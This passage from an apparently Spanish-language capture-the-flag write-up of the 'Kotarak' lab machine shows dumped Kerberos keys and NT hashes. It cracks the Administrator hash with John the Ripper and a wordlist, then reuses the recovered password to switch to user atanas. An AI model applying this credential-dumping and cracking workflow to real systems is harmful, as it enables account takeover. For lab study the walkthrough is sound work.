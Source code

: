 ```bash
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee                                                                                 
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908 
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b                                                                                             
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487                                                                                
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded 
WINXP1$:des-cbc-md5:984a40d5f4a815f2                                                                                             
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279                                                                                
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01                                                                                            
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772            
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180                                                                                               
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c                
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up...  
```

Tenemos los hashes de varios usuarios, a nostros lo que nos interesan sería **Administrator** y **atanas**; por lo que vamos a crackearlos:

```bash
❯ catn hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
❯ john -w=/usr/share/wordlists/rockyou.txt --format=NT hashes
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
f16tomcat!       (Administrator)
1g 0:00:00:00 DONE (2021-10-19 16:11) 1.408g/s 20202Kp/s 20202Kc/s 31772KC/s  _ 09..*7¡Vamos!
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

Ya tenemos la clave del usuario **Administrator**, podríamos probar migrar al usuario **atanas** con dicha contraseña:

```bash
tomcat@kotarak-dmz:/home$ su atanas
Password: 
atanas@kotarak-dmz:/home$ whoami
atanas
atanas@kotarak-dmz:/home$
```

